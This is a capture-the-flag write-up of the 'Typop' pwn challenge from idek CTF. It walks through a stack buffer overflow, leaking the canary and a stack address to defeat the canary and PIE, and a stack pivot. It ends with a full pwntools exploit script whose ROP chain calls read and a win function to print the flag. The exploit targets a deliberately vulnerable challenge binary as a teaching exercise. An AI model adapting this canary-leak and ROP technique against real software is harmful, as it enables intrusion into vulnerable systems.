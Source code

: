 ```yaml
---
layout: post
title: Typop
date: 2023-01-22
classes: wide
tags:
  - Exploitation
  - PWN
  - CTF
--- 
```


<pre style="font-size: 0.6rem; text-align: center">
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@#PPGPB@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@&?   .J&@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@B~   :P@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@Y.   7#@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@#7   .Y@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@@P^   ~G@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@@@&J    ?&@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@@@&J    ?&@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@@P^   ~G@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@#7   .Y@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@Y.   7#@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@B~   :P@@@@@@@@@#55555555555555G@@@@@@@@@@@@@
@@@@@@@@@@@@@&?   .J&@@@@@@@@@@Y              ~@@@@@@@@@@@@@
@@@@@@@@@@@@@#PPGPB@@@@@@@@@@@@#PGGGGGGGGGGGGPB@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
</pre>

---

This was a pwn challenge rated with 408 points in idek CTF.
The instructions said:

> While writing the feedback form for idekCTF, JW made a small typo. It still compiled though, so what could possibly go wrong?

This binary involved handling canary and PIE protections and, in the way I solved it, stack pivoting.

---

This is a very small binary with only a couple of functions. Let's run it first to see what would be the normal output:

<img src="/./assets/imgs/typop_exec.png">

As we can see, we provide the answer to some questions and we can overflow the stack easily. 

Let's take a look at the disassembly and see the main function:

<img src="/./assets/imgs/typop_main.png">

As we expected, it `puts` the first question and `getchar` the response. If it's 0x79 or 'y', then it continues and calls `getFeedback`. If not, it exits. 

Let's inspect `getFeedback`:

<img src="/./assets/imgs/typop_getfeedback.png">

We can quickly see where the overflow is. The `buf` to which we write is in $rbp-0x12 and in the first question already reads 0x1e. After that, it reads 0x5a, overflowing the stack.

The first thing we need to defeat is the canary. The answer to the second question is what gets replied to us. We can use this to print the canary by providing the exact amount of characters to concatenate the canary like so:

| 00  | 01  | 02  | 03  | 04  | 05  | 06  | 07  | 08  | 09  | 0a  | 0b  | 0c  | 0d  | 0e  | 0f  |
|-----|-----|-----|-----|-----|-----|-----|-----|-----|-----|-----|-----|-----|-----|-----|-----|
| 00  | 00  | 00  | 00  | 00  | 00  | 00  | 00  | 00  | 00  | 00  | 00  | 00  | 00  | AA  | AA  |
| AA  | AA  | AA  | AA  | AA  | AA  | AA  | AA  | CAN | CAN | CAN | CAN | CAN | CAN | CAN | CAN |
| RBP | RBP | RBP | RBP | RBP | RBP | RBP | RBP | RSP | RSP | RSP | RSP | RSP | RSP | RSP | RSP |

A \n char will be added at the end so it will be:

| 00  | 01  | 02  | 03  | 04  | 05  | 06  | 07  | 08  | 09  | 0a  | 0b  | 0c  | 0d  | 0e  | 0f  |
|-----|-----|-----|-----|-----|-----|-----|-----|-----|-----|-----|-----|-----|-----|-----|-----|
| 00  | 00  | 00  | 00  | 00  | 00  | 00  | 00  | 00  | 00  | 00  | 00  | 00  | 00  | AA  | AA  |
| AA  | AA  | AA  | AA  | AA  | AA  | AA  | AA  | 0a  | CAN | CAN | CAN | CAN | CAN | CAN | CAN |
| RBP | RBP | RBP | RBP | RBP | RBP | RBP | RBP | RSP | RSP | RSP | RSP | RSP | RSP | RSP | RSP |

Therefore we will rely on the chances of the canary ending up in 0x00. It will reply something like: `AAAAAAAAAAA\xAB\xCD\xEF\x0a...` with the last part being the canary, until it founds a \x00.

> One important thing to consider is that the canary is the same during the whole execution and therefore dumping it once will allow to reuse it

Now that we have the canary, we can overflow rbp and rsp to control execution. But what can we do with what? PIE is enabled and we don't know what the offset is.

But, we cano d the same technique again to dump rsp value because `getFeedback` is executed in a loop in main. In this case, it would look like:

| 00  | 01  | 02  | 03  | 04  | 05  | 06  | 07  | 08  | 09  | 0a  | 0b  | 0c  | 0d  | 0e  | 0f  |
|-----|-----|-----|-----|-----|-----|-----|-----|-----|-----|-----|-----|-----|-----|-----|-----|
| 00  | 00  | 00  | 00  | 00  | 00  | 00  | 00  | 00  | 00  | 00  | 00  | 00  | 00  | AA  | AA  |
| AA  | AA  | AA  | AA  | AA  | AA  | AA  | AA  | AA  | AA  | AA  | AA  | AA  | AA  | AA  | AA  |
| AA  | AA  | AA  | AA  | AA  | AA  | AA  | AA  | 00  | RSP | RSP | RSP | RSP | RSP | RSP | RSP |

We don't really care about the last bytes of rsp, we only want the offset. But with that we can control the execution. 

The target of this pwn challenge is to call win:

<img src="/./assets/imgs/typop_win.png">

This function will take 3 arguments, each of those a char, which will be concatenated to 'g.txt'. As we can see in the attachments, flag.txt is the name of the flag. Therefore, we can send 'f', 'l' and 'a' as the arguments, read the contents and have everything dumped. For that we can do ROP: find the gadgets, add the offset and get everything in the right registers.

But after running [ROPGadget](https://github.com/JonathanSalwan/ROPgadget) we can see that there is no way to pop a value to `rdx` and therefore we can't control the last argument. 

Let's change the approach. The filename is loaded from a string in $rbp-0x4a. The mode is hardcoded so we don't have to worry about that.

We know we can control rbp so we can do a stack pivot and then jump exactly to where the filename is loaded from rbp, in 0x000012ac. We are dumping the old $rbp when we dump the canary. We can substract 0x200 (or any value really) to get an empty area as our new fake stack.

Then we can write a string to that area by calling `read`. We can control rdi (stdin, \x00), rsi (where to write) and call `read`. We can't control rdx (the amount of bytes to read) but that would be 0x5a from previously calling `read` in `getFeedback`. 

So the exploit will work like this:

1. Do a first run of `getFeedback` to get the canary
2. Leave $rpb and $rsp as it is on the second question and provide the right canary.
2. Do a second run of `getFeedback` and get $rsp to get the offset. 
3. Provide the canary, overflow $rbp with the new stack value and $rsp to do the ROP: the `pop rdi` gadget, `\x00` * 8  (stdin value is 0), the `pop rsi; pop r15` gadget, the address where to write (our new stack address - 0x4a), `\x00` * 8 for the `pop r15`, the address of `read` and finally the exact position we want in `win`.

With that, we can craft the exploit:

```python
from pwn import *
import time

#b = process('./chall')
b = remote("typop.chal.idek.team", 1337)
#gdb.attach(b,  gdbscript='b *getFeedback+178')
#gdb.attach(b,  gdbscript='b *win+220')

def parse_addresses(data):
    stack_address = data[8:]
    stack_address = stack_address + b'\x00' * (8 - len(stack_address))

    canary = data[1:8]
    canary = b'\x00' * (8 - len(canary)) + canary
    return stack_address, canary

def parse_rsp(data):
    rsp = data
    rsp = rsp + b'\x00' + b'\x00' 
    return rsp

b.info(b.recvuntil(b'?\n'))
b.send(b'y\n')
b.info(b.recvuntil(b'?\n'))
b.send(b'AAAAAAAAAA\n')

data = b.recvuntil(b'Aww')[20:-4]
b.recvuntil(b'?')

stack_address, canary = parse_addresses(data)
canary = u64(canary)
b.info(str(hex(canary)))

b.send(b'B'*10 + p64(canary))
b.info(b.recvuntil(b'?\n'))
b.send(b'y\n')
b.info(b.recvuntil(b'?\n'))
b.send(b'AAAAAAAAAAAAAAAAAAAAAAAAA\n')

data = b.recvuntil(b'Aww')[36:-4]
b.recvuntil(b'?')

rsp = parse_rsp(data)
b.info(str(len(rsp)))
rsp = u64(rsp)
b.info(str(hex(rsp)))

base_address = rsp - 5191
win = rsp - 510
pop_rdi = 0x00000000000014d3
pop_rsi_r15 = 0x00000000000014d1
ret = 0x000000000000101a
pop_rsp = 0x00000000000014cd
new_stack_address = p64( u64(stack_address) - 0x2000)
b.send(b'B'*10 + p64(canary) + new_stack_address + p64(pop_rdi + base_address)  + b'\x00' * 8 +  p64(pop_rsi_r15 + base_address) + p64(u64(new_stack_address) - 0x4a) + b'\x00' * 8 +  p64(base_address - 784 + 5136) + p64(win + 99))

time.sleep(2)
b.send(b'flag.txt')

print(b.recvuntil(b'\n'))
b.interactive()

```

<img src="/./assets/imgs/typop_solved.png">
